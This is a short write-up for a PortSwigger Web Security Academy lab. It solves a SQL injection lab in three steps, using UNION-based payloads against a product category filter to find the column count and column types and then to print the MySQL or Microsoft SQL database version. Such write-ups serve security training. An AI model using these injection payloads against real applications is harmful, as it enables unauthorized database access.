 ```yaml
---
title: 'Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
###### tags: `Portswigger Web Security Academy` `Web`
* Description: his lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* Goal: To solve the lab, display the database version string. 

## Exp
1. Consider # of column
Payload: `?category=Accessories' union select NULL,NULL -- #`
2. Consider column type
Payload: `?category=Accessories' union select 'a','a' -- #`
Both of them contained text.
3. Attack
Payload: `?category=Accessories' union select 'abc',@@version -- #`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/vOx5kCK.png)
    :::

## Reference